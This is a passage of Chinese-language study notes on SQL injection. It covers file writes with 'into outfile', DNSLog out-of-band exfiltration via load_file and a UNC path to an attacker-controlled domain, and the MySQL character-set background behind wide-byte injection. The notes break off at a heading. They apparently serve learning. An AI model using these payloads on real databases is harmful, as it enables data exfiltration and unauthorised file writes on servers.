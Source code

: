     * 写文件
        ```sql
        select 要写的内容 into outfile '文件路径';
        ```
    
- DNSLog注入流程
  
    - 把select load_file()注入到数据库，访问文件
    
    - unc构建dns服务器地址，假装访问文件，产生dnslog
    
        ```sql
        select  load_file('////自己创建的域名/需要访问的网站的域名');
        ```
        
    - 把子域名替换成函数或者查询SQL
        ```sql
        select if((select load_file(concat('////',database(),'.自己创建的域名/网站域名'))),1,0);
        ```
        学习教程B站：<https://www.bilibili.com/video/BV1MA411L7TU?p=9>（第九集）

### 堆叠注入

### 二次注入（存储型注入）

### header注入

### **宽字节注入：**

什么是宽字节（字符大小两个字节的）：

- 宽字节是相对于ascII这样单字节而言的；像GB2312、GBK、GB18030、BIG5、Shift_JIS等这些都是常说的宽字节，实际上只有两字节
- GBK是一种多字符的编码，通常来说，一个gbk编码汉字，占用2个字节。一个utf-8编码的汉字，占用3个字节
- 转义函数：为了过滤用户输入的一些数据，对特殊的字符加上反斜杠“\”进行转义；Mysql中转义的函数addslashes，mysql_real_escape_string，mysql_escape_string等，还有一种是配置magic_quote_gpc，不过PHP高版本已经移除此功能。

**sql的执行过程：**

- php根据`character_set_client`告诉服务器应该怎么解码传过去的字符串。不进行编码。
- mysql服务器通过character_set_connection 来解码传过来的二进制流
    - 有人可能会奇怪，为什么会有这个字符集，直接用 character_set_client 来解码不就行了，它存在的意义是啥呢?
        - 其实主要是为了作用上的的分离，character_set_client 主要用来客户端的编码，
        - 而 character_set_connection 主要是为了赋予开发人员解析语义的自由，比如考虑 SELECT LENGTH('中') 这样的场景，如果采用 GBK 一个汉字 2 个长度，结果是 2，而如果是 UTF-8 编码，则结果是 3，所以额外设定一个 character_set_connection 编码，让开发人员可以根据需要更自由地定义不同的业务场景（没看懂）
- character_set_result: 
    - 结果集返回给客户端采用的编码字符集
- 项目接收到数据后，根据本地配置的字符编码展示查询结果；
- 如果未设置` characterEncoding`（？？？？？？？？），那么 character_set_client，character_set_connection，character_set_result 这三的编码字符集与 character_set_server 的设置相同，
- 如果设置了` characterEncoding`，那么这三者的值与 characterEncoding 相同。
- PHP代码中有mysql_query("SET NAMES 'gbk'");那就代表character_set_client，character_set_connection，character_set_results的值都是gbk，

宽字节注入

